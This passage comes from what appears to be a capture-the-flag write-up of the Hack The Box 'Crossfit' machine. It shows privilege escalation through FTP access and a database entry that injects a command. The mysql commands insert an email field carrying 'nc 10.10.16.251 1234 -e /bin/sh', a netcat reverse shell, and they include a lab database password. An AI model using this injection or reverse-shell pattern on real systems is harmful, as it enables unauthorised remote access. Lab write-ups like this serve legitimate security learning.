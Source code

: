 Without getting into too much details about what these lines mean, I thought I could ssh as `ftpadm`{:style="color:orange"} but turned out that this was a dead-end

![33](/assets/images/HTB/Crossfit/33.png)

Then I used FileZilla to login into FTP with these creds and find that i have access to a dir called `messages`{:style="color:orange"} so it makes sense that this is `$msg_dir`{:style="color:orange"} that I was searching for. So I added a dummy file in that dir.

![34](/assets/images/HTB/Crossfit/34.png)

then I injected a command in the db
```bash
hank@crossfit:~$ mysql -u crossfit -poeLoo~y2baeni crossfit -e 'INSERT INTO users (email) VALUES ("BlahBlah; nc 10.10.16.251 1234 -e /bin/sh ||");'
hank@crossfit:~$ mysql -u crossfit -poeLoo~y2baeni crossfit -e 'select * from users'
+----+----------------------------------------------+
| id | email                                        |
+----+----------------------------------------------+
| 53 | BlahBlah; nc 10.10.16.251 1234 -e /bin/sh || |
+----+----------------------------------------------+
```

And finally, I waited till the next minute started then I got a shell as Isaac.

![35](/assets/images/HTB/Crossfit/35.png)
